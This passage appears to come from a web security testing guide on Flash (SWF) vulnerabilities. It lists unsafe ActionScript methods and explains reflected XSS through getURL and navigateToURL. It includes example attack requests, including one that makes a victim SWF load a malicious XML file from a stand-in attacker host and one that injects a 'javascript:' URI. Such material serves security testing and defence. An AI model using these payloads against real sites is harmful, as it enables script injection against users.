 The above code could be attacked by requesting:

`http://victim/file.swf?language=http://evil.example.org/malicious.xml?`

### Unsafe Methods

When an entry point is identified, the data it represents could be used by unsafe methods. If the data is not filtered or validated, it could lead to some vulnerabilities.

Unsafe Methods since version r47 are:

- `loadVariables()`
- `loadMovie()`
- `getURL()`
- `loadMovie()`
- `loadMovieNum()`
- `FScrollPane.loadScrollContent()`
- `LoadVars.load`
- `LoadVars.send`
- `XML.load ( 'url' )`
- `LoadVars.load ( 'url' )`
- `Sound.loadSound( 'url' , isStreaming );`
- `NetStream.play( 'url' );`
- `flash.external.ExternalInterface.call(_root.callback)`
- `htmlText`

### Explotation by Reflected XSS

The swf file should be hosted on the victim's host, and the techniques of reflected XSS must be used. An attacker forces the browser to load a pure swf file directly in the location bar (by redirection or social engineering) or by loading it through an iframe from an evil page:

```html
<iframe src='http://victim/path/to/file.swf'></iframe>
```

In this situation, the browser will self-generate an HTML page as if it were hosted by the victim host.

### GetURL (AS2) / NavigateToURL (AS3)

The GetURL function in ActionScript 2.0 and NavigateToURL in ActionScript 3.0 lets the movie load a URI into the browser's window. If an undefined variable is used as the first argument for getURL:

`getURL(_root.URI,'_targetFrame');`

Or if a FlashVar is used as the parameter that is passed to a navigateToURL function:

```actionscript
var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
navigateToURL(request);
```

Then this will mean it's possible to call JavaScript in the same domain where the movie is hosted by requesting:

`http://victim/file.swf?URI=javascript:evilcode`
